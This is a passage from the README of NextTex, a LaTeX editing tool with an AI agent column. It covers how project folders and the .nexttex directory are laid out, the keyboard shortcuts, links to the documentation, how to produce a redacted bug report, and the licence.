the document that includes it. A document in a subfolder is built from
that folder, the way `pdflatex paper.tex` run there would build it, so
its `\input`, `\graphicspath` and a style file beside it resolve against
the folder. The project root stays on the search path, so a path written
from the root still resolves too. Every document's PDF and log land in
the one `build_dir`, named after the file, which is why two documents
cannot share a stem. Which documents are on the preview strip is
remembered in `.nexttex/`, not here, because it is yours rather than the
project's.

A project is registered, not imported, so NextTex never deletes a folder.
A row's **Archive** puts a project that is finished, a thesis submitted or
an application sent, out of the way and keeps it; **Trash** puts one on
the way out. A quiet line under the list counts both and opens their
views, where **Restore** brings a project back, opening one makes it
active again, and **Delete** in the trash, or **Empty the trash**, forgets
the entry and leaves the files exactly where they are.

Everything NextTex adds lives in one directory beside your files, and none of
it is needed to compile:

```
your-paper/
├── main.tex                 your files, untouched
├── chapters/
├── references.bib
├── prompts/                 your own /commands for the agent, if you keep any
├── build/                   latexmk's output
└── .nexttex/                everything NextTex adds
    ├── history/             versions, content-addressed
    ├── trash/               deleted files, kept until you say otherwise
    ├── transcript.jsonl     the conversation
    ├── context/             what you gave the agent to read
    └── collab/              the shared documents, if you have shared it
```

Delete `.nexttex/` and you have exactly the LaTeX project you started with.
On a shared project, leave from the share sheet first: deleting the folder's
records by hand tells nobody, so the others would still count you as a
member and keep trying to reach you.

## Keyboard

Every chord is written for both keyboards, the Mac glyphs first and the
words after. The tutorial's Keyboard section lists the same chords inside
the app, from the same table the app dispatches them from, and a test
holds this table to it. `⌘K` / `Ctrl-K` opens a box that finds every one
of these, every setting and every file by typing.

### Anywhere

| Key | Does |
|---|---|
| `⌘K` / `Ctrl-K` | The command palette: every action, setting and file, found by typing |
| `⌘S` / `Ctrl-S` | Put the file on disk this instant; builds instead when compile-as-you-type is off |
| `⌘B` / `Ctrl-B` | Hide the bar and its drawer, or bring them back |
| `⌘⌥A` / `Ctrl-Alt-A` | Show or hide the agent column, ready to type |
| `⌘⌥P` / `Ctrl-Alt-P` | Move between the previewed documents |
| `⌘⇧F` / `Ctrl-Shift-F` | Find and replace across every file in the project |
| `⌘⌥O` / `Ctrl-Alt-O` | Open a file by typing its name |
| `⌘⌥[` `⌘⌥]` / `Ctrl-Alt-[` `Ctrl-Alt-]` | Previous and next tab |
| `⌘⌥W` / `Ctrl-Alt-W` | Close the tab in front |
| `⌘⌥⇧T` / `Ctrl-Alt-Shift-T` | Reopen the tab you just closed |
| `⌘⌥R` / `Ctrl-Alt-R` | Reading mode: the page fills the window; again puts your layout back |
| `⌘⌥E` / `Ctrl-Alt-E` | Writing mode: the source and the drawer fill the window; again puts it back |
| `F8`, `Shift-F8` | Next and previous error |
| Wheel, over either tab strip | Scroll across the tabs; the count at the end lists the ones out of sight |
| Right-click, on the preview tab in front | Stop previewing the others or all, download that document's PDF, or open the page in a window of its own for a second monitor |
| `/`, on the project list | Find a project by typing; Enter opens the first match. The sort on the list's header line orders it by when each was last opened or by name |

### In the source

| Key | Does |
|---|---|
| `⌘↵` / `Ctrl-↵` | Scroll the PDF to the line you are on; in a script, run it |
| `⌘F` / `Ctrl-F` | Find and replace in the file you are in |
| `⌘.` / `Ctrl-.` | The menu for the word under the caret, which is how a word joins the project's dictionary |
| `⌘`-click / `Ctrl`-click, on a `\ref` or `\input` | Go to the label, or open the file |
| `F2`, on a `\label`, `\ref` or `\cite` | Rename the label or key in every file; the hover on one offers the same, and *Find references* |
| `⌥`-drag / `Alt`-drag | Select a column, for editing a table; some Linux desktops take Alt-drag for moving windows, so the next row does the same by keyboard |
| `⌘⌥↑` `⌘⌥↓` / `Ctrl-Alt-↑` `Ctrl-Alt-↓`, or with `⇧` / `Shift` added | Add a caret on the row above or below |
| `⌘⇧[` `⌘⇧]` / `Ctrl-Shift-[` `Ctrl-Shift-]` | Fold or unfold the section or environment the caret is in; the chevron in the gutter does the same, and `⌘⌥[` / `Ctrl-Alt-[` folds everything |
| `↹` or `↵`, in the completion list | Take the suggestion |
| `Esc` | Back to one caret |

### On the page

| Key | Does |
|---|---|
| `⌘F` / `Ctrl-F` | Find on the typeset page |
| Double-click | Go to the line that set this |

### In the Files drawer

| Key | Does |
|---|---|
| Typing | Jump to a file |
| `F2`, `Delete` | Rename, move to trash |

### In the agent column

| Key | Does |
|---|---|
| `↵`, `⇧↵` / `Shift-↵` | Send; a new line |
| `/` at the start of the box | List the reusable prompts; `↑`, `↓` and `↵` fill one in, `Esc` puts the list away |
| `A`, `⇧A`, `C`, `D`, in a permission card | Allow, allow always, allow for this conversation, deny |
| `Esc` | Stop the turn if one is running, otherwise close the column |

## Documentation

There is a tutorial inside the app: the Settings button at the foot of the
bar opens the settings sheet, which has a **Tutorial** button at its foot,
and the projects screen's app bar has an **About this screen** button beside
its own Settings. Both explain what is on the screen you are looking at,
which is usually faster than the files below. Esc closes either.

- [docs/architecture.md](docs/architecture.md): how it works inside. What the
  parts are, what each one owns, and why the awkward decisions are the way
  they are.
- [docs/first-session.md](docs/first-session.md): the long version of the
  walkthrough above.
- [docs/design.md](docs/design.md): the specification the interface was built
  against, the audits it was reviewed in, and every decision with its reason.
- [docs/style-guide.md](docs/style-guide.md): the look, written down as rules
  for anything added to the interface later: the tokens, the type roles, the
  kit, how things behave, and what every change ships with.
- [docs/project-context.md](docs/project-context.md): how a template, a
  handbook and a sample of your own writing change what the agent produces.
- [docs/testing.md](docs/testing.md): the four test tiers, why each exists,
  and the bugs they found.
- [docs/bug-reports.md](docs/bug-reports.md): what a bug report carries, and
  how one becomes a fix on `master` and a comment saying how to take it.
- [TRACKER.md](TRACKER.md): what is being worked on and what is waiting, each
  waiting item with its reason. Working state rather than documentation, which
  is why it sits outside `docs/`, and it is struck and added to in the same
  commit as the code so it cannot drift out of date on its own.
- [ROADMAP.md](ROADMAP.md): what will be built next, in the order it should
  be built, with a reason on every item and on everything left out. Working
  state like the tracker, which is why it is beside it rather than under
  `docs/`; an item leaves it when the tracker takes it up.

## Reporting a bug

Something broke, and the thing that makes the difference between a fix and a
question back is knowing what this install is and what it saw. NextTex writes
that down for you. On the projects screen, the app bar's **Report a
problem** button puts the report on your clipboard, shows it to you, and offers
to open the issue form on GitHub with the platform and commit already filled
in. From a terminal, the same text is:

```sh
cd ~/apps/NextTex
.venv/bin/python server/run.py --report
```

or, when the virtual environment is the thing that broke, from whatever Python
the machine has:

```sh
python3 -m nexttex.report
```

Either prints a report. It carries the commit the code is on and the commit
the interface was built from, the settings with a yes or no in place of
every secret, each tool NextTex looks for and where it found it, whether a
service is running it, and what the Claude CLI says about itself (never the
account). It ends with the last eighty lines of every log the install
keeps: on Linux the user journal (`journalctl --user -u nexttex` is what it
runs), on macOS and Windows `server.log` and `server.err.log` in
`~/.local/share/nexttex/`, and on every platform the last run recorded in
`install.log` and `update.log`. On Windows it also reads the system's own
logs: the scheduled task's history for the last week, or a line saying
that history is not switched on, which it is not until somebody turns it
on in Task Scheduler, and any crash the Application log recorded for the
Python interpreter. That is where a server that stopped without writing a
word leaves its trace.

The access token, the OpenAI key, the password hash and every browser
session's fingerprint are removed before you see it, and so is your home
directory, which appears as `~`, and your account's name, which appears as
`[account]`. A property test writes secrets into every
file the report reads and asserts none of them comes out. It is still yours
to read before you paste it: it names your hostname, your tailnet address if
you have one, and the commit subjects of your last update.

Open an issue at [github.com/dakshitha-a/NextTex/issues](https://github.com/dakshitha-a/NextTex/issues),
say what happened and what you expected, and paste the report. A fix lands
on `master`; when the issue closes, the comment on it names the commit, and
taking the fix is the update sheet's **Update** button or `scripts/update.sh`
(`scripts\update.ps1` on Windows). What happens in between is written down
in [docs/bug-reports.md](docs/bug-reports.md).

## Licence

MIT. See [LICENSE](LICENSE).

NextTex was built to write scientific papers in: the kind of document that
lives in git, carries a bibliography, and gets rewritten more often than it
gets written. It is tested against a forty-file LaTeX project with its own
Makefile, which NextTex has to leave working exactly as it was. Issues are
welcome; *Reporting a bug* above says what to put in one. This is a personal
tool; I make no promises about pull requests.
